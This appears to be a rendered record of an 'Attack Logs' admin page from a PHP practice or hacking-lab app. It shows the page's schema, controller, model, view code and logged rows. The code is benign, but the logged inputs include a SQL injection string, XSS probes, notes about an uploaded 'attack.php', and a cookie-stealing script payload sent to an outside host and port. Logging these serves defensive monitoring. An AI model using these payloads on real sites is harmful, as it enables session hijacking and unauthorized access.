

The page /Log.php on the database its author committed (2 pictures, top to bottom).
### tables this page shows
CREATE TABLE logs (
                      id INT AUTO_INCREMENT PRIMARY KEY,
                      level VARCHAR(50) NOT NULL,
                      input TEXT NOT NULL,
                      timestamp DATETIME DEFAULT CURRENT_TIMESTAMP,
                      ip_address VARCHAR(45),
                      user_agent VARCHAR(255),
                      suspicious BOOLEAN DEFAULT FALSE,
                      failed_attempts INT DEFAULT 0 -- Track the number of failed attempts
, user_id integer);

### controllers/LogController.php (called while the page is built, shortened)
<?php
require_once __DIR__ . '/../models/Log.php';
class LogController {
    private $model;
    public function __construct() {
        $this->model = new Log();
    }
    public function index() {
        $page = isset($_GET['page']) ? (int)$_GET['page'] : 1;
        $perPage = 20;
        $logs = $this->model->getLogs($page, $perPage);
        $totalLogs = $this->model->getTotalLogs();
        $totalPages = ceil($totalLogs / $perPage);
        require __DIR__ . '/../views/Log.phtml';
    }
}

### config/Database.php (called while the page is built)
<?php
class Database {
    private static $instance = null;
    private $pdo;
    private function __construct() {
        try {
            $this->pdo = new PDO('sqlite:' . __DIR__ . '/../data.sqlite');
            $this->pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
        } catch (PDOException $e) {
            die("Database Connection Failed: " . $e->getMessage());
        }
    }
    public static function getInstance() {
        if (self::$instance === null) {
            self::$instance = new self();
        }
        return self::$instance;
    }
    public function getConnection() {
        return $this->pdo;
    }
}

### models/Log.php (called while the page is built, shortened)
<?php
require_once __DIR__ . '/../config/Database.php';
class Log {
    private $pdo;
    public function __construct() {
        $this->pdo = Database::getInstance()->getConnection();
    }
    public function getLogs($page = 1, $perPage = 20) {
        $offset = ($page - 1) * $perPage;
        $stmt = $this->pdo->prepare("SELECT * FROM logs ORDER BY timestamp DESC LIMIT :limit OFFSET :offset");
        $stmt->bindValue(':limit', $perPage, PDO::PARAM_INT);
        $stmt->bindValue(':offset', $offset, PDO::PARAM_INT);
        $stmt->execute();
        return $stmt->fetchAll(PDO::FETCH_ASSOC);
    }
    public function getTotalLogs() {
        $stmt = $this->pdo->query("SELECT COUNT(*) as total FROM logs");
        $result = $stmt->fetch(PDO::FETCH_ASSOC);
        return $result['total'];
    }
}

### views/Log.phtml (the view, shortened to what this page needs)
<!DOCTYPE html>
<?php
$logs = $logs ?? [];
$page = $page ?? 1;
$totalPages = $totalPages ?? 1;
$action = $_GET['action'] ?? 'index';
?>
<html lang="en">
<head>
</head>
<body>
<div class="sidebar">
    <h2>Admin Panel</h2>
    <ul>
        <li><a href="?action=index" class="<?= ($action ?? 'index') === 'index' ? 'active' : '' ?>">Logs</a></li>
        <li><a href="?action=graphs" class="<?= ($action ?? '') === 'graphs' ? 'active' : '' ?>">Graphs</a></li>
    </ul>
    <form method="GET" action="Log.php">
        <button type="submit" class="export-btn">
            Export as CSV
        </button>
    </form>
</div>
<div class="main-content">
    <?php if (($action ?? 'index') === 'graphs'): ?>
        <h1>Analytics Dashboard</h1>
        <div class="graph-container">
            <div class="graph-card">
                <h2>Top IP Addresses</h2>
                <canvas id="ipChart"></canvas>
            </div>
            <div class="graph-card">
                <h2>Requests by Level</h2>
                <canvas id="levelChart"></canvas>
            </div>
            <div class="graph-card">
                <h2>Suspicious Activity</h2>
                <canvas id="suspiciousChart"></canvas>
            </div>
        </div>
    <?php else: ?>
        <h1>Attack Logs</h1>
        <table>
            <thead>
            <tr>
                <th>ID</th>
                <th>Level</th>
                <th>Input</th>
                <th>Timestamp</th>
                <th>IP Address</th>
                <th>User Agent</th>
                <th>Failed Attempts</th>
                <th>Status</th>
            </tr>
            </thead>
            <tbody>
            <?php if (!empty($logs)): ?>
                <?php foreach ($logs as $log): ?>
                    <tr>
                        <td><?= htmlspecialchars($log['id']) ?></td>
                        <td><?= htmlspecialchars($log['level']) ?></td>
                        <td><?= htmlspecialchars($log['input']) ?></td>
                        <td><?= htmlspecialchars($log['timestamp']) ?></td>
                        <td><?= htmlspecialchars($log['ip_address']) ?></td>
                        <td><?= htmlspecialchars($log['user_agent']) ?></td>
                        <td><?= htmlspecialchars($log['failed_attempts']) ?></td>
                        <td class="<?= $log['suspicious'] ? 'suspicious' : 'safe' ?>">
                            <?= $log['suspicious'] ? 'Suspicious' : 'Safe' ?>
                        </td>
                    </tr>
                <?php endforeach; ?>
            <?php else: ?>
                <tr>
                    <td colspan="8" style="text-align: center;">No logs found.</td>
                </tr>
            <?php endif; ?>
            </tbody>
        </table>
        <?php if ($totalPages > 1): ?>
            <div class="pagination">
                <a href="?page=<?= $page - 1 ?>" <?= $page <= 1 ? 'class="disabled"' : '' ?>>&laquo; Previous</a>
                <?php for ($i = max(1, $page - 2); $i <= min($page + 2, $totalPages); $i++): ?>
                    <a href="?page=<?= $i ?>" <?= $i == $page ? 'class="active"' : '' ?>><?= $i ?></a>
                <?php endfor; ?>
                <?php if ($page < $totalPages - 2): ?>
                    <?php if ($page < $totalPages - 3): ?>
                        <span>...</span>
                    <?php endif; ?>
                    <a href="?page=<?= $totalPages ?>"><?= $totalPages ?></a>
                <?php endif; ?>
                <a href="?page=<?= $page + 1 ?>" <?= $page >= $totalPages ? 'class="disabled"' : '' ?>>Next &raquo;</a>
            </div>
        <?php endif; ?>
    <?php endif; ?>
</div>
</body>
</html>

### Log.php
<?php
require_once __DIR__ . '/controllers/LogController.php';
$action = $_GET['action'] ?? 'index';
$controller = new LogController();
if ($action === 'export') {
    $controller->exportCSV();
} elseif ($action === 'graphs') {
    $controller->showGraphs();
} else {
    $controller->index();
}

### views/Log.phtml (style rules this page uses)
* { margin: 0; padding: 0; box-sizing: border-box; }
body { font-family: Arial, sans-serif; background-color: #111; color: white; display: flex; min-height: 100vh; }
.sidebar { width: 250px; background-color: #000; padding: 20px; position: fixed; height: 100%; border-right: 1px solid #333; }
.sidebar h2 { margin-bottom: 30px; font-size: 1.5rem; text-align: center; padding-bottom: 10px; border-bottom: 1px solid #333; }
.sidebar ul { list-style: none; margin-top: 20px; }
.sidebar ul li { margin: 15px 0; }
.sidebar ul li a { color: #ccc; text-decoration: none; font-size: 1.1rem; display: block; padding: 10px; border-radius: 4px; transition: all 0.3s ease; }
.sidebar ul li a.active { background-color: white; color: black; font-weight: bold; }
.export-btn { margin-top: 20px; background-color: white; color: black; border: none; padding: 12px; width: 100%; border-radius: 4px; cursor: pointer; font-size: 1rem; font-weight: bold; transition: background-color 0.3s; }
.main-content { flex: 1; padding: 20px; margin-left: 250px; background-color: #111; }
.main-content h1 { margin-bottom: 20px; padding-bottom: 10px; border-bottom: 1px solid #333; }
table { width: 100%; border-collapse: collapse; background-color: #1a1a1a; margin-bottom: 20px; box-shadow: 0 0 10px rgba(0, 0, 0, 0.5); }
th, td { padding: 12px; text-align: left; border: 1px solid #333; }
th { background-color: #222; font-weight: bold; color: white; }
tr:nth-child(even) { background-color: #1f1f1f; }
.suspicious { color: #ff4444; font-weight: bold; }
.safe { color: #44ff44; font-weight: bold; }
.pagination { display: flex; justify-content: center; margin-top: 20px; }
.pagination a { color: white; padding: 8px 16px; text-decoration: none; border: 1px solid #333; margin: 0 4px; border-radius: 4px; transition: all 0.3s; background-color: #222; }
.pagination a.active { background-color: white; color: black; border: 1px solid white; }
.pagination a.disabled { color: #666; pointer-events: none; background-color: #1a1a1a; }
.pagination span { color: white; padding: 8px 16px; margin: 0 4px; }

### rows shown on the page
logs: level "Level7", input "username: admin, password: [hidden]", timestamp "2025-04-15 15:31:04", ip_address "10.57.64.10", user_agent "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-GB; rv:1.9.2.16) Gecko/20110319 AskTbUTR/3.11.3.15590 Firefox/3.6.16", failed_attempts "0", suspicious "Safe", timestamp "2025-04-15 14:59:13", ip_address "10.57.72.79", user_agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36", level "Level6", input "Suspicious script output", timestamp "2025-04-15 14:48:33", failed_attempts "4", input "password123", input "Script executed: attack_67fe71ac744f69.55816664.php", timestamp "2025-04-15 14:48:32", input "Script uploaded: attack.php", timestamp "2025-04-15 14:48:12", timestamp "2025-04-15 14:44:27", level "Level5", input "' OR 1=1 --", timestamp "2025-04-15 14:03:29", failed_attempts "1", input "<script> alert(‘text’); </script>", timestamp "2025-04-15 13:57:48", input "asda", timestamp "2025-04-15 13:55:36", input "sad", timestamp "2025-04-15 13:54:50", input "INCORRECTPASSWORD", timestamp "2025-04-15 13:54:44", input "asfgasf", timestamp "2025-04-15 13:38:50", failed_attempts "2", input "dsfsdf", timestamp "2025-04-15 13:38:48", level "Level4", input "<script>window.location='http://10.57.64.10:1337/?cookie=' + document.cookie</script>", timestamp "2025-04-15 13:00:00", timestamp "2025-04-15 12:58:30", level "Level3", timestamp "2025-04-15 12:58:24", timestamp "2025-04-15 12:58:15", timestamp "2025-04-15 12:58:02", timestamp "2025-04-15 12:56:03"

### other values the page prints
$totalPages "9"
